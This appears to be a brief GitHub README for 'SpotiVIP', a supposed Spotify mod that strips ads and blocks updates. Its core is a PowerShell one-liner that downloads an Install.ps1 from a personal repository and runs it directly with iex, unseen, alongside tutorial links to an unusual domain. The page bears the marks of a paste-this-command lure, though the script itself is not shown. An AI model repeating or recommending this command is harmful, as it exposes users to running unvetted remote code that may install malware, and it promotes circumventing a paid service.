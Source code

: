 # SpotiVIP
SpotiVIP By Freakidann


OPEN POWERSHELL :

[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; iex "& { $((iwr -useb 'https://raw.githubusercontent.com/alan444719/SpotiVIP/main/Install.ps1').Content) } -confirm_uninstall_ms_spoti -confirm_spoti_recomended_over -podcasts_off -block_update_on -start_spoti -new_theme -adsections_off -lyrics_stat spotify"

Tuto : 

https://FreakidannOhio.i-am-in-your.systems/hwSuEvUwnsbO

Tuto 2 :
https://FreakidannOhio.i-am-in-your.systems/RjAvOmgOOkiU
